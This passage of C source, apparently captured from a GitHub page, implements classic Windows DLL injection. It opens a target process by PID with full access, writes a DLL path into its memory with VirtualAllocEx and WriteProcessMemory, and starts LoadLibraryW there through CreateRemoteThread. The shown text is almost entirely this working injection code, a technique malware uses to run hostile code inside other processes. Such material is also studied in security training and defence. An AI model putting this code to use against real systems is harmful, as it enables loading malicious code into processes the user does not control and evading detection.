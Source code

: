 ```c
	}
	else {
		PID = atoi(argv[1]);
	}

	printf("%s trying to get a handle to the process {%ld)\n", i, PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

	if (hProcess == NULL) {

		printf("%s failed to get a handle to the process, error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the process (%ld)\n--0x%p\n", k, PID, hProcess);

	rBuffer = VirtualAllocEx(hProcess, NULL, dllPathSize, (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE);
	printf("%s allocated buffer to process memory with PAGE_READWRITE permissions\n", k);

	if (rBuffer == NULL) {

		printf("%s could not create rBuffer, error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	WriteProcessMemory(hProcess, rBuffer, dllPath, dllPathSize, NULL);
	printf("%s wrote [%S] to process memory\n", k, dllPath);

	hKernel32 = GetModuleHandleW(L"Kernel32");

	if (hKernel32 == NULL) {
		printf("%s failed to get a handle to Kernel32.dll, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to Kernel32.dll\n--0x%p\n", k, hKernel32);

	LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
	printf("%s got the address of LoadLibraryW()\n--0x%p\n", k, startThis);

	hThread = CreateRemoteThread(hProcess, NULL, 0, startThis, rBuffer, 0, &TID);

	if (hThread == NULL) {
		printf("%s failed to get a handle to thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the newly-created thread (%ld)\n--0x%p\n", k, TID, hThread);
	printf("%s waiting for thread to finish execution\n", i);

	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing, cleaning up...\n", k);

	CloseHandle(hThread);
	CloseHandle(hProcess);

	printf("%s finished! see you next time!", k);

```